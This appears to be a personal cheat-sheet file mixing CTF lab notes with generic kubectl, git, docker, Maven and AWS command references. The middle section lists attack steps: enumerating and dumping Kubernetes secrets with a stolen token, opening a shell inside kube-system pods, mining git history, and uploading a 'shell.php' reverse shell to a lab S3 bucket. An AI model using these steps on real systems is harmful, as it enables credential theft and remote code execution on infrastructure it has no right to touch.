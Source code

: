 k0s kubectl get secretWhen using the K0s Kubernetes distribution, you can use the kubectl command-line tool to interact with the Kubernetes cluster. To retrieve information about secrets in the cluster, including their names and metadata, you can use the following commands:

k0s kubectl get secret :secret that we’ve hidden from ourselves, so let’s check the secrets in here:
k0s kubectl edit secret xxsecretxxnamexx : get specific info on a secret name
k0s kubectl get pods --help : showed that you can list all pods across all namespaces with the -A flag, which gives us a list of the pods:
k0s kubectl get pods -A   :list all pods across all namespaces with the -A flag, which gives us a list of the pods:
k0s kubectl exec -it xxpodxxnamexx --namespace=kube-system -- /bin/bash  : can execute specific pods with exec -it
k0s kubectl get job -n xxpodnamexxx : info about a specific pod
k0s kubectl get job -n internship -o json : output the info in json format


once we have the token id we can enumerate with following command
-----------------------------------------------------------------

kubectl --token=`cat token` --insecure-skip-tls-verify --namespace=default --server=https://10.10.228.155:8443 auth can-i --list  
kubectl --token=`cat token` --namespace=default --server=https://10.10.228.155:8443 get pods        
kubectl --token=`cat token` --insecure-skip-tls-verify --namespace=default --server=https://10.10.228.155:8443 get secrets                   
kubectl --token=`cat token` --insecure-skip-tls-verify --namespace=default --server=https://10.10.228.155:8443 get secrets flag -o yaml

==============================================git_enumeration======================================================================
check git logs in a system terminal
-------------------------------------

git log --pretty=oneline  :check git commits in after cd into .git folder
git show xxxxcommitxxidxxxxx : what is commited checking through commit number or id
==========================================================aws_S3_enum==============================================================
aws configure : configure with credentials
aws --endpoint=http://s3.thetoppers.htb s3 ls : list all the buckets
aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb :enumerate with specific bucket
aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb : copy a reverse shell in a remote bucket



=================================================================================================================================

This command will list all the secrets available in the current Kubernetes context. By default, it will display the name, type, and age (creation timestamp) of each secret.

If you have multiple Kubernetes contexts configured, you can specify the context explicitly by using the --context flag:


kubectl --context <context-name> get secret

Replace <context-name> with the name of the specific context you want to use.

If you would like to retrieve more detailed information about a specific secret, you can use the describe command:



kubectl describe secret <secret-name>

Replace <secret-name> with the name of the secret you want to retrieve detailed information about. This command will display additional details such as the data stored within the secret.

Remember to ensure you have the appropriate permissions and access rights to retrieve secrets in the cluster.

==================================================================================================

git clone <repository-url>: Clones a Git repository to your local machine.
git checkout <branch-name>: Switches to a specific branch in a Git repository.
git pull: Updates your local repository with the latest changes from the remote repository.
git add <file(s)>: Stages changes for commit in Git.
git commit -m "<commit-message>": Commits the staged changes with a descriptive message.
git push: Pushes committed changes to the remote repository.
git branch: Lists local branches and shows the current branch.
git merge <branch-name>: Merges changes from the specified branch into the current branch.
git tag <tag-name>: Creates a new tag at the current commit.
git log: Displays the commit history of a Git repository.
docker build -t <image-name> .: Builds a Docker image from the Dockerfile in the current directory.
docker run <image-name>: Runs a Docker container based on the specified image.
docker push <image-name>: Pushes a Docker image to a container registry.
docker pull <image-name>: Pulls a Docker image from a container registry.
docker-compose up: Starts services defined in a Docker Compose file.
docker-compose down: Stops and removes containers defined in a Docker Compose file.
npm install: Installs dependencies specified in the package.json file.
npm run <script-name>: Executes a script defined in the package.json file.
npm test: Runs tests defined in the project.
npm publish: Publishes a package to a package registry (e.g., npm registry).
mvn clean install: Cleans the project, compiles source code, and installs dependencies using Maven.
mvn test: Executes unit tests for a Maven project.
mvn package: Packages the application into a distributable format (e.g., JAR, WAR).
mvn deploy: Deploys the project artifacts to a remote repository.
gradle build: Builds a Gradle project.
gradle test: Executes tests for a Gradle project.
gradle publish: Publishes artifacts to a remote repository.
kubectl apply -f <yaml-file>: Applies Kubernetes configuration defined in a YAML file.
kubectl get pods: Lists running Pods in a Kubernetes cluster.
kubectl describe pod <pod-name>: Provides detailed information about a specific Pod.
kubectl scale deployment <deployment-name> --replicas=<num-replicas>: Scales the number of replicas for a Kubernetes Deployment.
kubectl rollout restart deployment <deployment-name>: Restarts a Kubernetes Deployment, triggering a new rollout.
helm install <chart>: Installs a Helm chart onto a Kubernetes cluster.
helm upgrade <release-name> <chart>: Upgrades a Helm release using a new chart version.
helm rollback <release-name> <revision>: Rolls back a Helm release to a previous revision.
aws configure: Configures AWS CLI credentials and settings.
aws s3 cp <source> <destination>: Copies files between your local machine and an S3 bucket.
aws lambda create-function: Creates a new AWS Lambda function.
aws lambda update-function-code: Updates the code for an existing AWS Lambda function.
aws ecs create-service: Creates an Amazon ECS service.
aws ecs update-service: Updates an Amazon ECS service with new task definitions.
